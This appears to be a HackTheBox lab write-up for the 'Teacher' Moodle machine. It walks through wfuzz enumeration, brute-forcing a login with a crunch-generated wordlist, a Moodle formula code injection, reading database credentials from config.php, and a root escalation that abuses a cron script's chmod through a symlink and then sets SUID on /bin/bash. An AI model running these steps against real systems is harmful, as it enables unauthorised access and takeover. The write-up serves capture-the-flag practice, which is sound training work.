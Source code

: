```yaml
---
title: HackTheBox - Teacher
categories: htb moodle mariadb
excerpt: | 
   Teacher is a easy difficulty Linux machine. It is an educational portal of a school which use moodle.

feature_text: |
  ## Teacher - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
``` python 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Blackhat highschool
|_http-server-header: Apache/2.4.25 (Debian)
```
Teacher is a easy difficulty Linux machine. It is an educational portal of a school which use moodle.

What's Moodle?
>**Moodle** is a free and open-source learning management system written in PHP. It's used for blended learning, distance education, flipped classroom and other online learning schemes

To enumerate the main service in port 80 we use `wfuzz`:
``` python
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.153/FUZZ -t 200
```
``` python
000000016:   301        9 L      28 W       313 Ch      "images"
000010825:   403        11 L     32 W       297 Ch      "phpmyadmin"
000014433:   301        9 L      28 W       313 Ch      "moodle"   
```
Taking a look of images path we'll find a suspicious image `5.png` which contains a posible password for user Giovanni, but he cannot remmember the last caracter of his passwod. But we can create a dictionary with the command `crunch`. Firstly, create a file charse.lst. Then use it to generate all possible password:
```
dalpha                     = [abcdefghijklmnopqrstuvwxyz]
ualpha                     = [ABCDEFGHIJKLMNOPQRSTUVWXYZ]
numeric                    = [0123456789]
symbols-all                = [!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
all-alpha-numeric-symbol   = [ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
```
``` python
crunch 15 15 -f charset.lst all-alpha-numeric-symbol -t Th4C00lTheacha@ > password.txt
```

We got a possible credential so maybe there is an access panel... Examine directory moodle which is a redirect to `http://teacher.htb/moodle/`. Adding this new host in our /etc/hosts, we'll follow it. There is a sign-in panel. Use burpsuite to study how is data sent. Then use wfuzz to find the correct password for Giovanni.
``` python
wfuzz -c --hc=404 -w password.txt -u http://teacher.htb//moodle/login/index.php -d "anchor=&username=Giovanni&password=FUZZ" 
```
The password will be valid when the response is different from everyone else. You got it! Now you are Giovanni, the teacher. You are allowed to create all quizz you want.

### Exploit vulnerabilities
You can [inject code](https://blog.sonarsource.com/moodle-remote-code-execution/) in moodle math formulas. This ones are evaluated by moodle dynamically on randomized input variables. It will evaluate it with the function `eval()` of PHP.

Following the inject code tutorial you can create a quizz and get a RCE. You can use it to get an interactive console to work better.

### Migrating of user 
Usually there are config files which have credentials as plain text. Look for one of this file on the domain and check if we can get credentials. Exaclty take a look of `/var/www/html/moodle/config.php`. It has a root password of **mariadb**.

Go to mysql as root and examine all databases to find some other credentials: `mysql -u root -p`. There is an identifier associated with username. Examine it with `hash-identifier` and search in [crackstation](https://crackstation.net/), because it is possible this identifier is in his dictionary. 

### Privilege Scalation
If we look at /home/giovanni directory we can see a folder named `work` which contains backup from courses. This tell us that there is a periodically command executed. Using a procmon or pspy we'll see it:
``` python
2022/07/13 19:16:01 CMD: UID=0    PID=14010  | /bin/bash /usr/bin/backup.sh 
2022/07/13 19:16:01 CMD: UID=0    PID=14011  | tar -xf backup_courses.tar.gz
2022/07/13 19:16:01 CMD: UID=0    PID=14012  | /bin/bash /usr/bin/backup.sh 
```
Take a look of `/usr/bin/backup.sh` script. 
``` python
#!/bin/bash                                   
cd /home/giovanni/work;                       
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;                                       
tar -xf backup_courses.tar.gz;                
chmod 777 * -R;                               
```
As you can see, it is executed by root (UID=0) and it changes persmission of directory `/home/giovanni/work/tmp/*` so if we create a symbol link named test that reference to /usr/bin/backup.sh in this directory we will change permission of backup.sh because it is executed by root:
1. cd /home/giovanni/work/tmp/
2. touch test
3. ln -s -f /usr/bin/backup.sh test
4. (Wait to the periodic task and) Check the permission of backup.share
5. Edit it to change permission of /bin/bash: `chmod u+s /bin/bash`
6. bash -p

 And that's all!

